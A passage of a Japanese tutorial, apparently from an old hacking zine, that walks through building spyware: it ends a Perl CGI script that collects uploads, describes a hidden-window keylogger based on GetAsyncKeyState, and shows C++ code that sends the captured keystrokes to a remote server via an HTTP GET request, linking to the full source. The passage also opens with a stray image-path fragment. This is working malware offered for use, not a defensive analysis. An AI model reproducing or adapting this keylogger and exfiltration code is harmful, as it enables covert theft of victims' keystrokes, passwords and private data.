 }
print << "EOF";
<p>Hello! And Goodbye!!</p>
</body>
</html>
EOF
exit;
-----

　短くするために改行のみの行を省きました。読みにくいですけど、短いので頑
張ってよんでください。CGIプログラムを組んだことがある方なら数分で理解でき
ると思います。前準備はこれだけです。

　では、スパイウェアを作りましょう。


■0x04.) HTTP（HyperText Transfar Protocol）

　save.cgiのあるサーバのポート80番にアクセスしデータを渡すプログラムを作
成します。CGIにはターゲットＰＣのキーログを渡すことにします。キーログは
GetAsyncKeyStateを利用することにします。HYDEをdefineするとWindowが非表示
になります。

+--- spy01.cpp ------------------------------+
| http://kenjinet.s26.xrea.com/spy/spy01.cpp |
+--------------------------------------------+

-----
BOOL SendLogData(char *MainMemory, UINT len)
{
    SOCKET sock;
    if((sock = ServConnect(HOST_NAME)) == -1){
        return TRUE;
    }

    char *SendAllData = new char[len + (int)strlen(FILE_PATH) + 32];

    wsprintf(SendAllData,
        "GET %s?%s HTTP/1.0\r\n\r\n",
        TEXT(FILE_PATH), MainMemory);

    send(sock, SendAllData, (int)strlen(SendAllData), 0);
    delete []SendAllData;

    shutdown(sock, SD_BOTH);
    closesocket(sock);
    WSACleanup();

    return FALSE;
}
-----

　SendLogData関数がキーログデータの送信を受け持ちます。ServConnectは接続
処理をまとめたものです。ホストを渡すとソケットを返してくれます。この関数
のソースはシンプルなので適当に読んでください。MainMemoryにはキーログのデ
ータが入り、lenにはその長さが入ります。これらをSendAllDataにまとめて送信
します。
